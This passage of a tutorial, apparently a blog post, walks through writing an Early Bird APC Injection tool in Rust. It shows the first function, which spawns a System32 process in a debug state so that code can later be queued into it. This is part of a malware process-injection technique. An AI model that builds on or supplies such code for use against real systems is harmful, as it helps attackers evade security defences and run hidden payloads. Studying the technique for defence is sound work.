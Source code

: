 As we can see, there are many imports from Windows API function signatures, constants, etc, as well as many utilities to handle pointesrs and specific non-primitive data types.

## Writing the functions

Next, we will write the necesary functions to perform a successfull Early Bird APC Injection. Let's begin with the function that creates the threat in this alertable state:

### Create the Process

```rust
pub fn create_new_process (
    lp_proces : *const c_char,
    dw_process_id: *mut DWORD,
    h_process : *mut HANDLE,
    h_thread : *mut HANDLE) {

        let mut windir = [0u8 ; MAX_PATH as usize];
        let envar_name = CString::new("WINDIR").unwrap();

        let len = unsafe {
            GetEnvironmentVariableA(
            PCSTR(envar_name.as_ptr() as *const u8),
            Some(&mut windir)
        )
    };

    let mut lp_path = format!("{}\\System32\\{}",  unsafe {CStr::from_ptr(windir.as_ptr() as *const i8).to_string_lossy()}, unsafe {CStr::from_ptr(lp_proces).to_string_lossy()});

    let mut si : processthreadsapi::STARTUPINFOA = unsafe { std::mem::zeroed() };
    si.cb = std::mem::size_of::<processthreadsapi::STARTUPINFOA>() as u32;
    let mut pi : processthreadsapi::PROCESS_INFORMATION = unsafe {std::mem::zeroed() };

    let create_process_status = unsafe {
        CreateProcessA(
            null(),
            CString::new(lp_path).unwrap().as_ptr() as *mut i8,
            null_mut(),
            null_mut(),
            0,
            DEBUG_PROCESS,
            null_mut(),
            null_mut(),
            &mut si as *mut processthreadsapi::STARTUPINFOA,
            &mut pi
        )
    };

    unsafe {*dw_process_id = pi.dwProcessId};
    unsafe {*h_process = pi.hProcess as *mut c_void};
    unsafe {*h_thread = pi.hThread as *mut c_void};
}
```
